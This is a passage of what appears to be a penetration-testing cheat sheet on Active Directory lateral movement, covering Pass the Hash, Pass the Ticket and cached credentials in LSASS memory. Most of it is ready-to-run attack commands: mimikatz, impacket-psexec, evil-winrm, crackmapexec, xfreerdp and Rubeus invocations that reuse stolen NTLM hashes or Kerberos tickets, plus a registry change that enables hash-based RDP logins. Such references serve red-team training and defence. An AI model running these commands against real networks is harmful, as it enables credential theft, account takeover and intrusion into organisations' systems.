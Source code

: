 **Performing PtH Attacks:**

1. Windows - Using mimikatz:\
   `privilege::debug "sekurlsa::pth /user:username /rc4:hash /domain:domain.name /run:cmd.exe" exit`
2. Linux - Using PsExec:\
   `impacket-psexec user@targetIP -hashes :hash`
3. Linux - Using evil-winrm:\
   `evil-winrm -i <ip> -u Administrator -H "<passwordhash>"`
4. Linux - Using crackmapexec:\
   `crackmapexec smb targetIP -u Administrator -d domain.name -H hash`
5. Pass the Hash with RDP:
   * Run `xfreerdp /v:targetIP /u:user /pth:hashvalue`
   * If Restricted Admin Mode is disabled, you will read a message telling you "account restrictions are preventing this user from signin in"
   * You can enable restricted admin mode (which is disabled by default) using the following:\
     `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
   * After that, you can try to login again using the first command

***

### **Pass the Ticket (PtT)**

> * Another method for moving laterally in an Active Directory environment is called a Pass the Ticket (PtT) attack.
> * In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash
> * To perform PtT you can either use a TGS or a TGT
> * After performing PtT, the ticket will be stored in the current logon session

**Performing PtT Attacks:**

1. Check the [Kerberoasting Section](internal-enumeration-and-lateral-movement.md#kerberoasting) to check how to request tickets
2. PtT using Rubeus: `Rubeus.exe asktgt /domain:domain.name /user:username /rc4:hash /ptt`
3. PtT using Rubeus with .kirbi file: `Rubeus.exe ptt /ticket:file.kirbi`
4. PtT using Rubeus - alternative:
   * Convert a .kirbi file to base64:`[Convert]::ToBase64String([IO.File]::ReadAllBytes("file.kirbi"))`
   * Perform PtT using the base64 value you just got: `Rubeus.exe ptt /ticket:base64output`
5. PtT using Mimikatz with .kirbi file: `privilege::debug kerberos::ptt "path-to-file.kirbi"`
6. PtT using Mimikatz - PowerShell Remoting with Pass the Ticket:
   * You can leverage Mimikatz to import a ticket and open a PowerShell console to connect to the target machine
   * First, perform PtT using mimikatz, then
   * Open a PowerShell console: `powershell`
   * Connect to the target machine: `Enter-PSSession -ComputerName DC01`

***

### **Cached Active Directory Credentials**

Since Microsoft's implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request. In modern versions of Windows, these hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space. If we gain access to these hashes, we could crack them to obtain the cleartext password or reuse them to perform various actions.
